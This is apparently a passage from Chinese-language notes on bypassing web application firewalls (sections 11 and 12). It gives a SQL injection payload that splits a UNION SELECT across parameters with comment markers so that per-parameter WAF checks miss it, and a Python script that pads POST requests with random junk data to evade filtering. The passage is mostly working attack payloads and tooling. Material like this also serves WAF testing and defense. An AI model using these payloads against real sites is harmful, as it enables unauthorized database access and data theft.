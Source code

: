 # 11.	利用数据提取方式的缺陷进行绕过
PHP+Apache中，在多参数传参的情况下，某些waf会对传参进行分开验证，我们可以通过分开传参加注释符进行绕过。

Example：
在PHP+Apache中	
x=1&y=2&z=3 在某些waf中会被提取为：	
x=1	
y=2	
z=3	
payload:	
```
id=1+union+/*&x=2*/+select/*&y=3*/+1,2,3+from+admin
```
waf检测方式为分别检测三个传参：	
id=1+union+/*	
x=2*/+select/*	
y=3*/1,2,3+from+admin	

数据库中，/**/中间的东西被过滤了，获得的传参为：	
```
id=1+union++select+1,2,3+from+admin
```
# 12.	脏数据绕过
在被waf拦截之后，更改传参方式为POST，再通过在传参处放入大量无用数据绕过waf，详情可以查看链接:	
https://cloud.tencent.com/developer/article/1592593

```
#生成垃圾数据
#coding=utf-8
import random,string
from urllib import parse
varname_min = 5
varname_max = 15
data_min = 20
data_max = 25
num_min = 50
num_max = 100
def randstr(length):
    str_list = [random.choice(string.ascii_letters) for i in range(length)]
    random_str = ''.join(str_list)
    return random_str

def main():
    data={}
    for i in range(num_min,num_max):
        data[randstr(random.randint(varname_min,varname_max))]=randstr(random.randint(data_min,data_max))
    print('&'+parse.urlencode(data)+'&')

main()
```